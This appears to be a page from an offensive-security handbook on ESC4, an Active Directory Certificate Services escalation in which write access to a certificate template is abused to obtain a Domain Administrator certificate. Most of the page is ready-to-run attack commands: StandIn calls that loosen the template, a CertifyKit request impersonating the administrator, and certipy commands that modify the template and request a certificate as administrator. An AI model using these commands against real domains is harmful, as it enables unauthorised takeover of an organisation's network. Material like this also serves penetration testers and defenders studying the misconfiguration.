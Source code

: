 ```yaml
---
description: Domain escalation via misconfigured certificate template access control
---
```


# 4️⃣ ESC4

ESC4 is relatively unique in its exploitation, utilizing mainly Active Directory ACL permissions.

This misconfiguration can occur when unintended users are granted one of the following template security permissions:

* Owner
* FullControl
* WriteOwnerPrincipals
* WriteDaclPrincipals
* WritePropertyPrincipals

Then such a user can modify the target template to configure the specific conditions for an ESC1 attack, then request a certificate as the Domain Administrator.

#### Adding Certificates with StandIn

To add certificates using StandIn, follow these examples:

*   **Certificate Enrollment Permission**: To allow Domain Users to enroll for certificates, use the following command:

    {% code fullWidth="true" %}
    ```powershell
    StandIn_v13_Net45.exe --ADCS --filter SecureUpdate ntaccount "cb domain users" --enroll --add
    ```
    {% endcode %}
*   **Client Authentication EKU**: To add a certificate with Client Authentication EKU, execute:

    ```powershell
    StandIn_v13_Net45.exe --ADCS --filter SecureUpdate --clientauth --add
    ```

ENROLLEE\_SUPPLIES\_SUBJECT:

```
StandIn_v13_Net45.exe --ADCS --filter SecureUpdate --ess --add
```

An example for SmartCardLogon ESC4 Abuse using CertifyKit’s /alter option is as follows:

{% code fullWidth="true" %}
```
CertifyKit.exe request /ca:cb-ca.cb.corp\CB-CA /template:'SecureUpdate' /altname:administrator
/domain:cb.corp /alter /sidextension:S-1-5-21-2928296033-1822922359-262865665-500
```
{% endcode %}

```
certipy template -u attacker -p 'P@ssw0rd' -template ESC4 -save-old
```

```
certipy req -u attacker -p 'P@ssw0rd' -ca lab-DC-CA -target 192.168.1.2 -template ESC4 -upn administrator@lab.lan
```
